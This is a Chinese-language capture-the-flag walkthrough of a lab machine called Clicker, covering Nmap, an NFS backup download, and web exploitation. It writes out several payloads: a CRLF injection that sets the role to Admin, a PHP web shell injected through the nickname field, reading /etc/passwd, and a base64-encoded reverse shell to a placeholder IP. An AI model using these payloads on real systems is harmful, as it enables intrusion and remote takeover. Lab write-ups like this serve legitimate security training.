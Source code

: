# Clicker 

## Step 1: Nmap

一樣先掃看看

![Screenshot 2023-12-19 193215](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/546e37fe-e0e7-494a-becc-1b199d22a409)

發現有NFS伺服器和Apache server

## Step 2: NFS

把東西抓下來看看有啥

![Screenshot 2023-12-19 194250](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/620ba8b2-609c-4415-9c91-f637f0e2147b)
![Screenshot 2023-12-19 194447](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/260dbb91-9927-4f42-9d7c-02126d014d2f)
![Screenshot 2023-12-19 194550](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/6c1714a0-d4cd-45e4-a0e5-408aac7bd5fa)
![Screenshot 2023-12-19 194824](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/7b6bbca4-6d6a-4eab-af20-ce3524c989e3)

現在我們有整個網站的Backup了

但不清楚這個網站在幹嘛

去它的WEB翻翻看垃圾

## Step 3: WEB

發現在註冊時會有疑似可以注入的地方出現
![Screenshot 2023-12-19 195703](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/13d908ba-cb57-43f6-a339-6d37f11b4ead)

找不到適合的注入方式，找找看其他東西

![Screenshot 2023-12-19 200553](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/f2b90989-e5b4-48e4-8b92-7456cf949257)

發現這個小遊戲會變更到save_game.php這個檔案
![Screenshot 2023-12-19 200814](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/6ea41284-2afc-4d22-af8b-c8a78c3b2f16)

發現backup中對role這個東西會擋

![Screenshot 2023-12-19 201019](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/536b9ef3-a258-4d0e-9601-cb049e92aa1f)
![Screenshot 2023-12-19 201111](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/057cb3b3-7f18-47d6-aae6-064be9ccb658)

測測看

![Screenshot 2023-12-19 201236](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/197449a3-adfc-4e4c-81aa-131866a47602)

找到你囉漏洞

[CRLF Injection](https://www.geeksforgeeks.org/crlf-injection-attack/)

![Screenshot 2023-12-19 201236](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/4c9ba320-0ebd-41f3-9f54-c1f21bb379bd)
![Screenshot 2023-12-19 201256](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/beb25c34-4f56-4541-9920-e9dae9fa0936)

試試看我們的酷炫Injection

> &role%0a=Admin

![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/409139ff-19bc-42e2-927a-3b0b07612170)
![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/71ad048c-27a4-4eee-b8e9-54c5c20b26cc)

重新登入就可以看到新的東西了

![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/72ed66b4-61ac-49fd-b3d5-6fd17b2556c6)

![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/4542d0a7-3846-4a2d-95b2-2eb32e96d78b)

Export看看

![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/31087803-bd07-46ab-b987-c4279ac7a0bd)

可以到指定的路徑下面查看

![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/a4941da2-048b-481d-adc9-412987d92cb7)

又找到新的酷東西

![Screenshot 2023-12-19 203816](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/96c6d4ff-0819-4e41-964c-dc56c04ce8b0)


把extentsion改成php試試看

![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/c6793dbc-5dc7-42db-8ce4-fcd78033ed05)

變成php了

進去看看

![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/a383f1ac-1d78-4b6c-9370-07ef8042960c)

![image](https://github.com/FromSouth/Pub-ClassWork/assets/25276693/dfebe736-97dc-4efd-98e2-2a5a32664b84)

回到backup裡面，發現裡面有一個authenticate.php

![image](https://github.com/FromSouth/Pub-ClassWork/assets/25276693/01ad81f3-7434-452b-8ad0-2919d8f3f34c)

發現還有一個parameter叫做"Nickname"可以用

試試看能不能做shell出來  

> &nickname=<%3fphp+system($_GET['cmd'])+%3f>

> <file_name>.php?cmd=id

![image](https://github.com/FromSouth/Pub-ClassWork/assets/25276693/78c9d1e2-d470-41a1-b3f6-fd07c82d1aa5)

> <file_name>.php?cmd=cat /etc/passwd

![image](https://github.com/FromSouth/Pub-ClassWork/assets/25276693/85cf53a7-5c55-4e98-8239-6414e343e908)

這裡面要特別注意的是密碼除了root以外

還有一個用戶叫做jack

## Reverse Shell

> echo "sh -i >& /dev/tcp/<your_ip>/9001 0>&1" | base64
> echo%20%22<your_reverse_shell>%22%20|%20base64%20-d%20|%20bash

![image](https://github.com/FromSouth/Pub-ClassWork/assets/25276693/52a2cf43-a357-4eeb-b3fa-15ed5758aa28)

Reverse shell 壞了，我不能理解
